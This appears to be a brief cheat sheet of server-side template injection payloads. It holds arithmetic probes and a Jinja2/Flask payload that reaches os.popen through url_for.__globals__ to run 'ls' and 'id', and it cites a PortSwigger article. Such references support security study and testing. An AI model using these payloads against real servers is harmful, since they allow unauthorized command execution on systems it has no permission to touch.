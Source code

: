 

```
{{7*7}}
{{333*2}}
{{url_for.__globals__.os.popen('ls').read()}}
```

```
os.popen('id').read()
```




#Refs:

- https://portswigger.net/blog/server-side-template-injection
